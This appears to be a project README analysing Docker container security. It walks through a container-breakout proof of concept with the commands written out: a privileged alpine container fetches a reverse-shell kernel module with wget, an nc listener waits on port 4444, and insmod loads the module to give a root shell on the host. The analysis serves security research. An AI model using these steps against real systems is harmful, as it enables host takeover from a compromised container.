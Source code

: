 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**:

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
  ```bash
  cd reverseshell
  make
  ```
2. Start a Python Server in the *reverseshell* directory using the command:
  ```bash
  python3 -m http.server
  ```
3.  On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
  ```bash
  docker run --rm --privileged -it alpine sh
  ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
  ```bash
  wget http://172.17.0.1:8000/reverseshell_module.ko
  ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
  ```bash
  chmod +x reverseshell_module.ko
  ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
  ```bash
  nc -nlvp 4444
  ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
  ```bash
  insmod reverseshell_module.ko
  ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.
